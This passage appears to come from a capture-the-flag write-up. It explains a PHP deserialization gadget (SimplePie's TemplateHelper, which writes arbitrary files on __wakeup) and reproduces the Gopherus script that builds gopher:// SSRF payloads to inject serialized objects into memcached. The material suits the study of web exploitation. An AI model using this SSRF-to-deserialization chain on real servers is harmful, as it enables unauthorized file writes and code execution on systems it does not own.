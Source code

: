 The interesting part being:
```
| xct_760d1ad137(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) |
    ```
Now we need to understand what this does.
After also spending a long while at this stage in the box i put some effort in and tried to understand what was going on.
The code used in the template.php is the `TemplateHelper` class from SimplePie that is used for the php serialization:
```
class TemplateHelper
{

    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
    	$this->init($file, $data);
    }

    public function __wakeup()
    {
    	$this->init($this->file, $this->data);
    }

    private function init(string $file, string $data)
    {    	
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}
```
# Exploit
This is a process where the contents are converted into a bytestream  representation so that they can be stored in a file or a memory buffer, in our case the memcached. we can Inject with ssrf into memcache with our own TemplateHelper and after its been serialized writes our malicious data to a file.

After researching in depth for tools that we could use we come accross this tool:
[gopherus](https://github.com/tarunkant/Gopherus)

In particular we want the PHPmemcached.py script, it looks as follows
```python
import urllib

def PHPMemcached():
    print "\033[01m" + "\nThis is usable when you know Class and Variable name used by user\n"+ "\033[0m"

    code = raw_input("\033[96m" +"Give serialization payload\nexample: O:5:\"Hello\":0:{}   : "+ "\033[0m")

    if(not code):
        print "\033[93m" + "Plz give payload" + "\033[0m"
        exit()

    payload = "%0d%0aset SpyD3r 4 0 " + str(len(code)) + "%0d%0a" +  code + "%0d%0a"

    finalpayload = urllib.quote_plus(payload).replace("+","%20").replace("%2F","/").replace("%25","%").replace("%3A",":")

    print "\033[93m" +"\nYour gopher link is ready to do SSRF : \n" + "\033[0m"
    print "\033[04m" + "gopher://127.0.0.1:11211/_" + finalpayload + "\033[0m"
```